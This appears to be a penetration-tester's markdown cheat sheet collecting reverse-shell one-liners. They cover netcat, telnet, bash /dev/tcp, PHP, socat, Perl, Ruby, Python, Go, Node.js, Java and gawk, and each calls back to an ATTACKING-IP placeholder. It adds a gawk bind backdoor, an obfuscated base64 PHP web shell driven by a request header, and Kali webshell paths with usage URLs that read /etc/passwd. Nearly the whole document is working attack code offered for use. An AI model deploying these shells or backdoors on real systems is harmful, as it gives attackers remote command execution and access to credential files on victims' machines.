 # Various Reverse Shells


## Setup a listner

``` nc -nvlp 4444```

## Netcat Reverse Shell

```
nc -e /bin/sh <ATTACKING-IP> 4444
```
```
/bin/sh | nc <ATTACKING-IP> 4444
```
```
rm -f /tmp/p; mknod /tmp/p p && nc <ATTACKING-IP> 4444 0/tmp/p
```
### NC OPENBSD
```
mkfifo /tmp/lol;nc <ATTACKING-IP> 4444 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
## Telnet Reverse Shell
```
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKING-IP> 4444 0/tmp/p
```
```
telnet <ATTACKING-IP> 80 | /bin/bash | telnet <ATTACKING-IP> 4444
```

## Bash Reverse Shell

```
exec /bin/bash 0&0 2>&0
```
```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Or
```
while read line 0<&5; do $line 2>&5 >&5; done
```
```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

## PHP Reverse Shell

(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```
php -r '$sock=fsockopen("ATTACKING-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/4444 0>&1'");?>
```
Base64 encoded
```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

## socat Reverse Shell

```
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```

## Perl Reverse Shell
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell

```
ruby -rsocket -e'f=TCPSocket.open("<ATTACKING-IP>",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Python Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKING-IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Golang Reverse Shell

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","<ATTACKING-IP>:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

## Node.js Revese Shell
```
require('child_process').exec('bash -i >& /dev/tcp/<ATTACKING-IP>/4444 0>&1');
```
## Java Reverse Shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ATTACKING-IP>/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Gawk Reverse Shell

```
gawk 'BEGIN {P=4444;S="> ";H="<ATTACKING-IP>";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```
```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

# Kali Web Shells
The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

## PHP
``` /usr/share/webshells/php/php-reverse-shell.php ```

``` /usr/share/webshells/php/php-findsock-shell.php ```

``` /usr/share/webshells/php/findsock.c``` - You will need to run ```gcc -o findsock findsock.c``` to compile it and execute with netcat not a browser ```nc -v <target-ip> 4444```

``` /usr/share/webshells/php/simple-backdoor.php``` PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: ```http://target.com/simple-
backdoor.php?cmd=cat+/etc/passwd```

```/usr/share/webshells/php/php-backdoor.php``` - Larger PHP shell, with a text input box for command execution.

> The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

## Perl
``` /usr/share/webshells/perl/perl-reverse-shell.pl```

``` /usr/share/webshells/perl/perlcmd.cgi``` - Usage - ```http://target.com/perlcmd.cgi?cat /etc/passwd```


## Cold Fusion(CFM)
```/usr/share/webshells/cfm/cfexec.cfm```

## ASP/ASPX
```/usr/share/webshells/asp/```

```/usr/share/webshells/aspx/```

## JSP
```/usr/share/webshells/jsp/jsp-reverse.jsp```
